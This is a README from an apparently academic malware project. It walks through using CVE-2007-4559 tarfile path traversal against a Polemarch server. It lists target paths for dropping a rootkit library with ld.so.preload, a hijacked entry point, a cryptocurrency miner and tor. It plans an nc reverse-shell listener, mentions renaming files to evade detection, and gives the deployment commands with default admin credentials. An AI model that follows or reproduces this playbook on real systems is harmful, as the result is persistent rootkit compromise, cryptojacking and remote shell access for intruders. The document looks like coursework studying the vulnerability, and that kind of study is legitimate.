

# MALW
Malware UPC

## Set up

### Docker
```bash
$: docker compose build 
$: docker compose up -d
```

Polemarch server available at http://localhost:8080

### Vagrant
```bash
$: vagrant up
```

Polemarch server available at http://localhost:8085

## POC
Proof of concept using https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-4559 
and based on the work from https://www.trellix.com/en-us/about/newsroom/stories/research/tarfile-exploiting-the-world.html.

### Directories to attack
We want to be able to deploy the following files:
- /usr/local/lib
  -> rootkit.so: library to load
- /etc
  -> ld.so.preload: library to load before any other library
- /opt/polemarch/bin
  -> polemarchctl: entry point for docker
- /usr/bin
  -> xmring: miner
  -> tor: tor

Note: in the real exploit we would change some names to avoid detection.

### Notes
- Binary files MUST have executable permissions
- Tar's can not be deployed twice
- Malware will be placed in an auxiliar folder which will be symlinked to target folder

## Instructions
In order to deploy the malware we will have to set up:

- Polemarch server 
- Server hosting the compromised tar files
- Nc listening to execute a reverse shell

First, deploy the polemarch server:

```bash
$: ./polemarch.sh 
+ docker rm polemarch -f
polemarch
+ docker run -d --name polemarch --restart always -v /opt/polemarch/projects:/projects -v /opt/polemarch/hooks:/hooks -p 8080:8080 vstconsulting/polemarch:1.8.5
fbbbd334a21694e760522172519d51e253f1d2bebb35f5b15a01a1b0b96fb518
```

Generate the tar files and host the tar files (example using python localhost server). Configure the server to listen in an interface
accesible from the docker container:

```bash
$: cd poc
$: python tar.py
+ set -o pipefail
+ python3 tar.py
+ python3 -m http.server --bind 172.17.0.1 3000
Serving HTTP on 172.17.0.1 port 3000 (http://172.17.0.1:3000/) ...
```

Log in to the polemarch server using default password (admin/admin) and
create a project with a the compromised tar file:



"Sync" the project, which will untar untar our compromised tar.

